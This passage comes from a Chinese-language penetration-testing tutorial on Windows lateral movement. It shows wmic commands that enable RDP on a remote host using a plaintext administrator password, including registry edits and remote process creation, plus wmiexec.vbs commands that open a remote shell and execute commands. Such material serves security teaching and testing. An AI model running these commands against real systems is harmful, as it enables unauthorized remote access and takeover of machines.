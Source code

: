 5. 其他命令：开启 RDP（明文）
    ```powershell
    # 适用于 Windows、xp、server 2003
    wmic /node:192.168.31.2 /user:administrator /password:CJYcjy320723 PATH win32_terminalservicessetting WHERE (__Class!="") CALL SetAllowTSConnections 1
    
    # 适用于 Windows 7、8、10, server 2008、2012、2016，注意 ServerName 需要改为目标的 Hostname
    wmic /node:192.168.31.2 /user:administrator /password:CJYcjy320723 RDTOGGLE WHERE ServerName='计算机名' call SetAllowTSConnections 1
    # 或者
    wmic /node:192.168.31.2 /user:administrator /password:CJYcjy320723 process call create 'cmd.exe /c REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'
    # 调用其他命令就是：
    wmic /node:192.168.31.2 /user:administrator /password:CJYcjy320723 process call create '其他命令'
    ```

    ![image-20240623131644055](Kerberos/image-20240623131644055.png)

#### 4.2.6 WMIEXEC.vbs 脚本 - 明文

1. 该脚本通过 vbs 调用 WMI 来模拟 PsExec 的功能，地址：

    > https://github.com/k8gege/K8tools/blob/master/wmiexec.vbs

2. 明文命令：
    ```cmd
    # 获取 Shell
    cscript //nologo wmiexec.vbs /shell 192.168.31.2 administrator CJYcjy320723
    # 执行命令
    cscript /cmd wmiexec.vbs 192.168.31.2 administrator CJYcjy320723 "ipconfig"
    ```
